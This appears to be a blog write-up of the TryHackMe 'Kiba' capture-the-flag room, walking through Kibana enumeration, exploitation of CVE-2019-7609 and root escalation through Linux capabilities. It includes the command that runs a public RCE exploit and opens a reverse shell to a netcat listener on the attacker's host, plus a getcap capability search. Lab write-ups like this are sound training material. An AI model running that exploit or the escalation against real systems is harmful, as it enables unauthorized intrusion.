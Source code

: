 ```yaml
---
title: Kiba
date: 2023-03-19
layout: post
categories: [hack, tryhackme]
tags: [kibana,ctf,tryhackme,rce]
---
```


Easy level machine from TryHackMe, it's about exploiting systems that use Kibana. So, what is Kibana?
Kibana is a source-available data visualization dashboard software for Elasticsearch, whose free and open source fork in OpenSearch is OpenSearch Dashboards. (Wikipédia)

![banner](/assets/kiba/banner.png)

The fisrt question is:
## What is the vulnerability that is specific to programming languages with prototype-based inheritance?

Let's google it.

![google](/assets/kiba/protoype.png)

### Enumeration

Feel free to use -T 5 option. 😉

![nmap](/assets/kiba/nmap.png)

On port 80 we see:

![page](/assets/kiba/main.png)

We have one clue about linux capabilities. Keep it in mind. On port 5601 we see the kibana's dashbord.

## What is the version of visualization dashboard installed in the server?

Click on Management section.

![version](/assets/kiba/version.png)

## What is the CVE number for this vulnerability? 

![cve](/assets/kiba/cve.png)

## Compromise the machine and locate user.txt

It's show time!
Let's use [this exploit](https://github.com/LandGrey/CVE-2019-7609). Note: Be sure that you have python2 intalled.

```
python2 CVE-2019-7609-kibana-rce.py -u http://10.10.227.122:5601/ -host 10.13.19.119 -port 1234 --shell
```

Before running, get your netcat ready! And your output should be something like this:

![exploit](/assets/kiba/exploit.png)

And your reverse shell will be in your netcat!

![shell](/assets/kiba/user-flag.png)

Capabilities is a concept that provides a security system that allows "divide" root privileges into different values.
## How would you recursively list all of these capabilities?

https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities

You can read more about it here ☝️

getcap -r /

## Escalate privileges and obtain root.txt

Let's read the capabilities.

`getcap -r / 2>/dev/null`

![capabilities](/assets/kiba/capabilities.png)

Take a look in [GTFObins](https://gtfobins.github.io/gtfobins/python/#capabilities) website

![gtfobins](/assets/kiba/gtfobins.png)

Note: you need enter in the file .hackmeplease to work! Then it will use the python that is vulnerable.

![root-flag](/assets/kiba/root-flag.png)

I hope you had fun as I did too! See you in the next write-up 👋 Bye!